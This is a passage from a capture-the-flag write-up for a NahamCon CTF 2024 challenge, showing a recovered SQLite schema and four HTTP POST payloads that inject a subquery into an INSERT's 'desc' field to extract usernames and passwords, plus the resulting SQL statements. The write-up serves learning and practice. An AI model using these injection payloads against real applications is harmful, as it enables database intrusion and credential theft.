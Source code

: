 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2024/images/Pasted%20image%2020240527133532.png)

As you can see, `OFFSET 2` returned `None`, which means this offset has no records.

**Now we got database's structure!!**
```sql
CREATE TABLE users (
    id INTEGER NOT NULL, 
    name VARCHAR(100), 
    password VARCHAR(100) NOT NULL, 
    PRIMARY KEY (id)
)

CREATE TABLE products (
    id INTEGER NOT NULL, 
    name VARCHAR(100) NOT NULL, 
    price INTEGER, 
    desc TEXT, 
    PRIMARY KEY (id)
)
```

Hmm... The **table `users` looks juicy**, as it should holds some users' credentials!

Let's exfiltrate table `users` records!!

**Payloads:**
```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+0));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+1));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+2));--+-
```

```http
POST /create/ HTTP/1.1
Host: challenge.nahamcon.com:31903

name=Your+Mum&price=69&desc='||(SELECT+name||'|'||password+FROM+users+LIMIT+1+OFFSET+3));--+-
```

**Final executed SQL statements:**
```sql
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 0));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 1));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 2));-- -');
INSERT INTO Products (name, price, desc) VALUES ('Your Mum', '69', ''||(SELECT name||'|'||password FROM users LIMIT 1 OFFSET 3));-- -');
```
